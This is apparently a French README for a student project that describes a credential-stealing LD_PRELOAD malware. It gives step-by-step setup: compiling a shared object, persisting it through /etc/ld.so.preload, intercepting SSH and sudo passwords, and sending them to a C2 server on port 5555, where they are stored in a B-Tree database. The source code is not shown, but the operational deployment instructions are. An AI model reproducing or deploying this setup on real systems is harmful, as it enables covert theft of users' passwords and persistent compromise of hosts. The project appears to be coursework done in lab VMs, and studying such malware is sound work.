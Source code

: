 ## Auteur
- Angelov Onur et Slimani Anis — ESGI 3SIJ
# README - Malware LD_PRELOAD avec Serveur C2 et Base de Données en C (B-Tree)

Ce projet est un POC complet d’un malware basé sur `LD_PRELOAD`, capable d’intercepter les identifiants SSH d’un utilisateur, de les envoyer à un serveur distant C2, et de les stocker de manière persistante dans une base de données implémentée en C à l’aide d’un B-Tree.

Pour commencer : ``git clone https://github.com/Runo76/CC1-DATABASE-ESGI``
---
```
## 📁 Structure du projet

CC1-DATABASE-ESGI/
├── server/                    # Serveur C2 (écoute, enregistre les victimes)
│   ├── server.c
│   ├── register_victim.c
│   ├── Makefile
│   └── ...
├── BTreeDB/                   # Base de données des victimes (B-Tree)
│   ├── author.md
│   ├── btree.c/.h/.o
│   ├── table.c/.h/.o
│   ├── repl.c/.h/.o
│   ├── persistence.c/.h/.o
│   ├── main.c/.o
│   ├── database.db           # Fichier de base de données persistante
│   ├── id_counter.txt        # Fichier de compteur ID auto-incrémenté
│   ├── db.txt, db/, tests/   # Données et tests
│   ├── Makefile, README.md
│   └── BTreeProject/
├── LD_PRELOAD/malware/       # Malware LD_PRELOAD (client espion)
│   ├── malware.c
│   ├── send_to_c2.c
│   ├── malware.so            # Généré après compilation
│   ├── Makefile
│   └── install_ldso_preload.sh  # Script pour activer automatiquement LD_PRELOAD
└── README.md
```

---

## 💻 VM 1 – Serveur C2 (192.168.1.20)

### 🛠️ Prérequis

- OpenSSH installé :

  sudo apt install openssh-server |
  sudo nano /etc/ssh/sshd_config |
  ### Modifier: Port 5555
  sudo systemctl enable ssh |
  |sudo systemctl start ssh
🔧 Compilation du serveur + base
______________________
Terminal 2 cd ../BTreeDB :
|make clean | make
______________________
Terminal 1 cd ~/server/CC1-DATABASE-ESGI/server:
|make clean
|make
🚀 Lancer le serveur C2

./server |
Le serveur écoute sur le port 5555
Il reçoit :

register <hostname> <password> → stocké dans la base BTree

log <hostname> <cmd> → affiché dans le terminal

## 💻 VM 2 – Malware (192.168.1.15)
🛠️ Prérequis
OpenSSH installé :

sudo apt install openssh-server
⚠️ Configuration du malware
Dans send_to_c2.c, modifier l’IP du serveur (ligne #define C2_IP "...") :


#define C2_IP "192.168.1.20" |
#define C2_PORT 5555 |
Vous pouvez aussi modifier le port C2 si nécessaire.

🔧 Compilation

cd ~/mal/CC1-DATABASE-ESGI/LD_PRELOAD/malware |
___________
 make
_______________________________
chmod +x add_to_ldso.sh |
sudo ./add_to_ldso.sh |
______________________________
Cela ajoute le chemin absolu de malware.so dans /etc/ld.so.preload
🐚 Injection automatique via LD_PRELOAD

| Fonction                         | Description                                                                                                                                               |
| -------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 🔑 Exfiltration de mot de passe  | Intercepte les entrées `password:` dans un terminal                                                                                                       |
| 📦 Envoi vers serveur C2         | Format : `register <hostname> <mdp>`                                                                                                                      |
| 🚫 Blocage de fichiers sensibles: Empêche `open()` sur sudo /etc/passwd`, `/etc/shadow`, etc. Exemple : `sudo cat /etc/passwd` → Permission denied▪️ ` cat /etc/passwd` → aussi bloqué       |
| 🧠 Injection automatique via SSH | Vous pouvez tester avec :<br>▪️ `LD_PRELOAD=./malware.so ssh name@192.168.1.xx`                                                                           |
| 💾 Persistance dans BTree        | Chaque victime est stockée dans `database.db` avec ID unique                                                                                              |
| 🔁 Injection persistante         | Automatique via `/etc/ld.so.preload`                                                                                   

🔍 Vérification de la base
Sur la VM C2 :

cd ../BTreeDB
./db
Dans la CLI :


select
Vous verrez (le register el le mdp de la connexion ssh):
ex
(1, anisdebian, 1478)
(2, onur, 1234)

🧪 Exemple de test
Lancer le serveur C2 sur VM1 :
./server


Sur la VM malware, compiler et injecter :


make |
chmod +x add_to_ldso.sh|
sudo ./add_to_ldso.sh |
Se connecter à une machine distante via SSH (ou exécuter sudo ls)
exemple : |
LD_PRELOAD=./malware.so ssh nom@192.168.1.xx (ip)


→ password: sera intercepté sur le serverc2
Vérifier la base côté serveur :

cd ../BTreeDB
./db
> select (pour parcourir l'arbre et voir ceux qui est insert)
autre commande expliqué dans la db


❌ Pour désactiver le malware

sudo rm /etc/ld.so.preload
📎 Remarques
Le fichier database.db est mis à jour automatiquement.

